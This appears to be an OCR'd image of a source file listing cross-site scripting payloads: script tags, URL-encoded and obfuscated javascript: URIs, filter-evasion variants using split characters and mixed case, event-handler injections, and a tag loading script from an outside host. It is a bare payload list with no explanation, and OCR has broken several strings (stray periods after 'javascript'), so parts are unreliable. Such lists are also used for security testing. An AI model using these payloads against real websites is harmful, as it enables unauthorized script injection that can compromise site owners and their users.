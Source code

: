 <s&#99;ript>alert('XSS')</script>

<img src="javas&#99;ript:alert('XSS')">

%0a%0a<script>alert(\"Vulnerable\")</script>.jsp

%3c/a%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3c/title%3e%3cscript%3ealert(%22xss%22)%3c/script%3e

%3cscript%3ealert(%22xss%22)%3c/script%3e/index.html

<script>alert('Vulnerable')</script>

a.jsp/<script>alert('Vulnerable')</script>

"><script>alert('Vulnerable')</script>

<IMG SRC="javascript.:alert('XSS');">

<IMG src="/javascript.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"('XSS')>

<IMG src="/JaVaScRiPt.:alert"(&quot;XSS&quot;)>

<IMG SRC="jav&#x09;ascript.:alert('XSS');">

<IMG SRC="jav&#x0A;ascript.:alert('XSS');">

<IMG SRC="jav&#x0D;ascript.:alert('XSS');">

"<IMG src="/java"\0script.:alert(\"XSS\")>";'>out

<IMG SRC=" javascript.:alert('XSS');">

<SCRIPT>a=/XSS/alert(a.source)</SCRIPT>

<BODY BACKGROUND="javascript.:alert('XSS')">

<BODY ONLOAD=alert('XSS')>

<IMG DYNSRC="javascript.:alert('XSS')">

<IMG LOWSRC="javascript.:alert('XSS')">

<BGSOUND SRC="javascript.:alert('XSS');">

<br size="&{alert('XSS')}">

<LAYER SRC="http://xss.ha.ckers.org/a.js"></layer>

<LINK REL="stylesheet"HREF="javascript.:alert('XSS');">

<IMG SRC='vbscript.:msgbox("XSS")'>
